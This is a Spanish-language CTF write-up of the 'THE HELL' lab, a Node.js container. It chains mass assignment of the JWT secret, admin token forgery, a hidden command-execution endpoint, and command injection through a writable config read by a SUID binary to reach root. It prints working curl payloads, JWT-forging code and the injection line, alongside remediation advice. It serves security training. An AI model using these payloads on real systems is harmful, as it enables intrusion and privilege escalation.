# THE HELL — Writeup de Auditoría de Seguridad (CTF)

| Campo | Valor |
|---|---|
| **Laboratorio** | THE HELL — *Salón Estilo Lua* |
| **Plataforma** | Whoami-Labs |
| **Dificultad** | Difícil ★★★★★☆☆☆ (5 puntos) |
| **Categoría** | Web Exploit (con escalada SUID) |
| **Autor del writeup** | chifay |
| **Fecha** | 16/10/2026 |
| **Objetivo** | `172.17.0.2:3000` (contenedor Docker) |
| **Atacante** | Kali Linux — `172.17.0.1` |
| **Hostname del objetivo** | `the-hell` |
| **Stack del objetivo** | Node.js/Express (app en `/app`) · Debian 12 (kernel Kali 7.1.5) |
| **Bandera obtenida** | `thehell{n3stjs_m4ss_4ss1gnm3nt_jwt_bypl4ss}` |
| **Estado** | Validada por el laboratorio (16/10/2026 18:08:46 · 1h 30m 20s) |
| **Vector de entrada** | Mass assignment en `POST /v1/onboarding/config` |
| **Ruta completa** | Mass assignment (`jwt_secret`) → JWT forgery → endpoint oculto `run-job` → RCE `node` → SUID `sysaudit` → `root` |

> **Restricción del ejercicio:** el análisis se hizo exclusivamente por red. No se inspeccionó la
> configuración del contenedor ni se leyó su filesystem; el único acceso al disco del objetivo fue a
> través de la RCE obtenida, que forma parte de la cadena de ataque documentada abajo.

---

## 1. Resumen ejecutivo

THE HELL expone **un único puerto**, el `3000`, con una aplicación Node.js/Express que simula la web de
una peluquería («Salón Estilo Lua») y una pequeña API de onboarding. No hay SSH, ni FTP, ni base de
datos accesible: el 65 534 de los 65 535 puertos TCP están cerrados.

La superficie visible es mínima —una web estática y dos endpoints documentados— pero esconde **dos
vulnerabilidades encadenadas**:

1. **Mass assignment** en el alta de configuración: el endpoint acepta campos que no están en el
   «contrato de implementación», lo que permite sobrescribir el **secreto de firma JWT** del servidor.
2. Con ese secreto se **forja un token administrativo** y se accede a un **endpoint no documentado**,
   `POST /v1/admin/run-job`, que ejecuta comandos del sistema operativo.

Esa RCE da un shell como `node` (uid 1000). La escalada final no usa `sudo` —no está instalado— sino un
**binario SUID propio del laboratorio**, `/usr/local/bin/sysaudit`, que lee su configuración de un
fichero **escribible por el grupo `node`** y lo interpola sin comillas en una llamada a `system()`.
Basta escribir `; cat /root/flag.txt` en ese fichero para obtener `root`.

**Resultado validado por el laboratorio el 16/10/2026 a las 18:08:46** (1 h 30 min 20 s):
«¡Conquistado! THE HELL completado».



| # | Vector | De → A |
|---|---|---|
| 1 | Mass assignment: se inyecta `jwt_secret` | web → control del secreto de firma |
| 2 | JWT forgery `{"role":"admin"}` | secreto → token administrativo |
| 3 | Endpoint oculto `POST /v1/admin/run-job` | token → RCE como `node` |
| 4 | `/etc/sysaudit.conf` escribible + SUID `sysaudit` | `node` → `root` |

---

## 2. Reconocimiento

### 2.1 Puertos

```bash
nmap -Pn -sV -sC -p- 172.17.0.2
```



| Puerto | Estado | Servicio |
|---|---|---|
| 3000/tcp | open | Node.js Express framework |

De 65 535 puertos, 65 534 cerrados. Todo el reto vive en la capa web.

### 2.2 Superficie web

El `index.html` es una web corporativa estática de peluquería con un formulario de «Reserva tu cita».
**Ese formulario es decorativo**: el JavaScript inline solo muestra un *toast* y hace `reset()`, sin
enviar nada. Es un señuelo, no un vector.

El enlace útil es `/integradores.html`, la documentación para el proveedor de agenda:



```
GET  /v1/public/info
POST /v1/onboarding/config
{ "app_name": "...", "city": "...", "timezone": "..." }

"Persiste la configuración del local antes del primer cierre de producción.
 Envíe solo los campos acordados en el contrato de implementación."
```

Esa última frase es la pista del reto: **el contrato no es solo documentación, es un control de
seguridad que el servidor no aplica.**

Un fuzzing de rutas con 220 545 palabras × 4 extensiones no encontró nada más allá de las cinco
rutas conocidas, lo que confirma que el endpoint administrativo de la fase 2 no está en ninguna
wordlist.

---

## 3. Mass assignment: control del secreto JWT

`POST /v1/onboarding/config` acepta cualquier campo adicional sin validarlo, tal como anticipa el
contrato:

```bash
curl -s -X POST http://172.17.0.2:3000/v1/onboarding/config \
     -H 'Content-Type: application/json' \
     -d '{"app_name":"Salon Estilo Lua","city":"Villa Norte",
          "jwt_secret":"s3cr3t_inyectado_chifay"}'
```



```json
{"status":"success","message":"Configuración inicial del salón guardada correctamente"}
```

> **Lección de método:** mi barrido inicial de 77 claves dio la impresión de que «solo `app_name` y
> `city` tienen efecto». Ese barrido comparaba **el contenido devuelto por `/v1/public/info`**, que es
> una vista pública y por definición no expone la configuración interna. El mass assignment sí se
> aceptaba; simplemente no era observable por ahí. **Un oráculo de verificación mal elegido produce un
> falso negativo convincente.**

---

## 4. JWT forgery

Con el secreto bajo control, se forja un token HS256 válido. El objetivo no tiene `pyjwt`, así que la
firma se calcula a mano (base64url sin relleno + HMAC-SHA256):

```python
h = b64u(json.dumps({"alg": "HS256", "typ": "JWT"}))
p = b64u(json.dumps({"role": "admin", "iat": ..., "exp": ...}))
sig = hmac.new(SECRET, f"{h}.{p}", hashlib.sha256).digest()
token = f"{h}.{p}.{b64u(sig)}"
```



La diferencia entre un token correcto y uno falso es la prueba de que la inyección agarró:

```
baseline (secreto falso): 403 {"error":"Invalid signature or expired token"}
*** ENGANCHO: campo='jwt_secret' claim={'role': 'admin'}
    HTTP 400: {"error":"Missing command parameter"}
```

El `403` con secreto falso frente al `400 Missing command parameter` con el secreto inyectado confirma
que el servidor **firma con la clave que le acabamos de escribir**.

---

## 5. Endpoint administrativo no documentado

Con el token, la ruta responde de forma reveladora:



```
GET  /v1/admin/run-job  ->  404 Not Found
POST /v1/admin/run-job  ->  401 {"error":"Unauthorized"}
```

Solo `POST`, solo con token, y **no aparece en `integradores.html`**. El campo que busca el endpoint
tampoco es `cmd`: es **`command`**, un detalle que solo se descubre probando.

```json
{"command": "id"}
```

### 5.1 RCE como `node`



```
uid=1000(node) gid=1000(node) groups=1000(node)
node
the-hell
Linux the-hell 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC
```

Ejecución de comandos remota sin autenticación previa más allá del JWT forjado.

### 5.2 Reconocimiento interno



```
node:x:1000:1000::/home/node:/bin/bash
sudo: not found
```

Un solo usuario de servicio, shell `/bin/bash` en `/etc/passwd` y **sin `sudo` instalado**, lo que
descarta de entrada la escalada por `sudo` y apunta al inventario SUID.

### 5.3 Cómo se descubrió la ruta (y el error de método)

Este fue el punto donde más tiempo perdí, y el fallo fue concreto: mi script `find_admin.py` probó
19 prefijos × 36 verbos (684 rutas), pero **todos los verbos eran atómicos** (`/run`, `/exec`, `/cmd`,
`/shell`). El endpoint real se llama **`run-job`**: un verbo compuesto con un sustantivo.

```
/v1/admin/run      -> 404
/v1/admin/run-job  -> 401   <-- aquí estaba
```

> **Lección:** los endpoints de una API real casi nunca son verbos desnudos. `/users` es `/list-users`,
> `/backup` es `/run-backup`. Un diccionario de fuzzer debe incluir la combinación verbo-sustantivo
> (`run-job`, `import-csv`, `export-data`, `reset-password`), no solo el verbo.

La corrección está implementada y verificada en `exploits/find_admin_composed.py`, que **encuentra la
ruta sin ayuda externa**:

```
$ python3 exploits/find_admin_composed.py
prefijos=19 verbos=106 rutas=2014 (x2 metodos)
  POST 403  /v1/admin/run-job  (46 B)

=== FIN: 1 rutas con codigo != 404 ===
  403       46 B  /v1/admin/run-job
```

El `403` (y no `404`) es la señal de que **la ruta existe pero el token es falso**. El `404` en `GET`
y el `403` en `POST` fue lo que permitió triangular el método y el nombre exactos.

---

## 6. Escalada a root — SUID `sysaudit`

El inventario de binarios SUID revela uno propio del laboratorio:



```
-rwsr-xr-x 1 root root 17024 Jul 28 22:22 /usr/local/bin/sysaudit
```

Las cadenas legibles del binario muestran exactamente qué hace. El objetivo **no tiene `strings`**
(`strings: not found`), así que se extraen con `perl`, que sí está:

```bash
perl -ne 'while (/([\x20-\x7e]{4,})/g) { print "$1\n" }' /usr/local/bin/sysaudit \
  | grep -E 'sysaudit|tail -n|system'
```

```
system
/etc/sysaudit.conf
/usr/bin/tail -n 10 %s
sysaudit.c
system@GLIBC_2.2.5
```

Reconstruyendo la lógica: abre `/etc/sysaudit.conf`, lee una línea y la concatena en
`system("/usr/bin/tail -n 10 " + linea)`. **La ruta va sin comillas a un shell.** El `%s` es el
formato de `printf` que confirma que la línea de configuración entra en una cadena de formato.

El eslabón que lo hace explotable es el permiso del fichero de configuración:



```
-rw-rw---- 1 root node  26 Oct 16 22:38 /etc/sysaudit.conf
/var/log/alternatives.log
```

El grupo `node` puede escribirlo. Basta cambiar el contenido por una ruta que inyecte un separador de
comandos:

```bash
printf '%s\n' '/var/log/alternatives.log; id; cat /root/flag.txt' > /etc/sysaudit.conf
/usr/local/bin/sysaudit
```



```
uid=0(root) gid=0(root) groups=0(root),1000(node)
thehell{n3stjs_m4ss_4ss1gnm3nt_jwt_bypl4ss}
```

### 6.1 Validación por el laboratorio

La bandera se introdujo en el validador de la plataforma, que confirma la resolución:



```
Objetivo: 172.17.0.2
Fecha:    2026-10-16 16:38:26 -0600

Flag (thehell{...}): thehell{n3stjs_m4ss_4ss1gnm3nt_jwt_bypl4ss}

¡Conquistado!
THE HELL completado
Hora:          2026-10-16 18:08:46 -0600
Tiempo Total:  1h 30m 20s
```

---

## 7. Ruta completa de ataque

| Paso | Acción | Resultado |
|---|---|---|
| 1 | `nmap -p- 172.17.0.2` | Solo `3000/tcp` (Node.js/Express) |
| 2 | Enumeración web y lectura de `/integradores.html` | API de onboarding documentada |
| 3 | `POST /v1/onboarding/config` con `jwt_secret` | Secreto de firma bajo control |
| 4 | Forja JWT `{"role":"admin"}` | `400 Missing command parameter` (token válido) |
| 5 | `POST /v1/admin/run-job` con `{"command":"id"}` | **RCE como `node`** |
| 6 | `find / -perm -4000` | `/usr/local/bin/sysaudit` (SUID root) |
| 7 | `echo "; id; cat /root/flag.txt" > /etc/sysaudit.conf` | Configuración inyectada |
| 8 | `/usr/local/bin/sysaudit` | **`root`** → bandera |
| 9 | Introducir la flag en el validador de la plataforma | `¡Conquistado! THE HELL completado` |

---

## 8. Recomendaciones de corrección

| # | Hallazgo | Mitigación |
|---|---|---|
| 1 | Mass assignment en la configuración de onboarding | Lista blanca estricta de campos; rechazar el resto con `400` |
| 2 | Secreto JWT configurable desde la API | No permitir que el cliente fije material criptográfico; rotarlo y mantenerlo fuera de la API |
| 3 | JWT falsificable | Algoritmo y verificación de firma estrictos (rechazar `none` y `alg` por Claims) |
| 4 | Endpoint `run-job` oculto | La seguridad no debe depender de ocultar rutas; además, **auditar el caso de uso**: ¿de verdad un endpoint web debe ejecutar comandos del SO? |
| 5 | Inyección de comandos en `sysaudit` | Nunca pasar rutas a `system()`; usar `execve()` con argumentos separados, o validar la ruta contra una lista blanca |
| 6 | `/etc/sysaudit.conf` escribible por `node` | Propiedad `root:root` y `0644`; el binario no debe confiar en una configuración que su propio usuario puede reescribir |
| 7 | Binario SUID propio innecesario | Eliminar el SUID; si el proceso necesita privilegios, separarlo con un servicio y un protocolo en vez de un binario `setuid` |

---

## 9. Indicadores de compromiso (IOC)

| Tipo | Valor |
|---|---|
| Bandera | `thehell{n3stjs_m4ss_4ss1gnm3nt_jwt_bypl4ss}` |
| Secreto JWT inyectado | `s3cr3t_inyectado_chifay` |
| Campo vulnerable | `jwt_secret` en `POST /v1/onboarding/config` |
| Endpoint oculto | `POST /v1/admin/run-job` (parámetro `command`) |
| Binario SUID anómalo | `/usr/local/bin/sysaudit` (SUID root) |
| Fichero de configuración comprometido | `/etc/sysaudit.conf` con contenido que no sea una ruta simple |
| Cabecera de petición crítica | `Authorization: Bearer <JWT HS256>` contra `/v1/admin/*` |

---

## 10. Herramientas utilizadas

| Herramienta | Uso |
|---|---|
| `nmap` | Descubrimiento de puertos y versiones |
| `gobuster`, `ffuf`, fuzzer propio en Python | Enumeración de contenido y rutas |
| `curl` | Descubrimiento de la API y del endpoint oculto |
| `requests` + `hmac`/`hashlib` | Mass assignment, forja de JWT y RCE |
| `find` | Inventario de binarios SUID |
| `perl` | Extracción de cadenas del binario (el objetivo no trae `strings`) |
| `wordlists/` | Diccionarios de campos JWT, claims y nombres de ruta (ver su `README.md`) |
| `Pillow` | Generación de las capturas PNG del writeup |

---

## 11. Estructura del repositorio de trabajo

```
THE HELL/
├── README.md              ← este writeup
├── notes/bitacora.md      ← bitácora del análisis y decisiones
├── recon/                 ← salidas de reconocimiento
│   ├── nmap-ports.txt, nmap-servicio.txt
│   ├── web-root.html, styles.css
│   └── gobuster-common.txt, ffuf-api.txt
├── exploits/              ← utilidades escritas durante la auditoría
│   ├── jwt_rce.py         ← mass assignment + JWT forgery + RCE
│   ├── rce.py             ← ejecuta comandos vía /v1/admin/run-job
│   ├── webfuzz.py         ← fuzzer de rutas en Python
│   ├── find_admin.py      ← cazador v1 (verbos atómicos: falló)
│   ├── find_admin_composed.py ← cazador v2 (verbos compuestos: encuentra la ruta)
│   └── map_fields.py      ← barrido de claves (documenta el falso negativo)
├── wordlists/             ← diccionarios usados, con README que los explica
├── loot/                  ← flag
├── shots/                 ← captura y render de las imágenes
│   ├── capture.sh, build_images.sh
│   ├── text2png.py
│   └── captures/          ← salidas de texto (ignoradas por git)
└── docs/img/              ← imágenes del writeup
```